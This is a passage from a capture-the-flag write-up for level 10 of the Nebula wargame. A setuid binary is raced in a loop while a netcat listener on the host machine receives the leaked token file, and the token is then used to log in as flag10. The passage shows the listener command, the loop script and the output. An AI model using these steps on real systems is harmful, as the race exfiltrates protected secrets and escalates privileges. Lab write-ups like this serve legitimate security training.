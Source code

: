 ```nc -klnvp 18211```
```
#!/bin/bash

while true; do
  ./flag10 /tmp/token 10.0.2.2;
done
```

Anw now, to run the scripts:
```
level10@nebula:/home/flag10$ ./tmp/bg.sh &
level10@nebula:/home/flag10$ ./tmp/fg.sh
You don't have access to token
You don't have access to token
You don't have access to token
You don't have access to token
You don't have access to token
You don't have access to token
You don't have access to token
...
```

Eventually, on our host machine we'll see this:
```
Connection from 10.0.2.2 50069 received!
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
Connection from 10.0.2.2 50070 received!
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
Connection from 10.0.2.2 50071 received!
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
Connection from 10.0.2.2 50072 received!
```

Now, we can use this token to login as ```flag10```:
```
level10@nebula:/home/flag10$ su flag10
Password:
sh-4.2$ getflag
You have successfully executed getflag on a target account
```
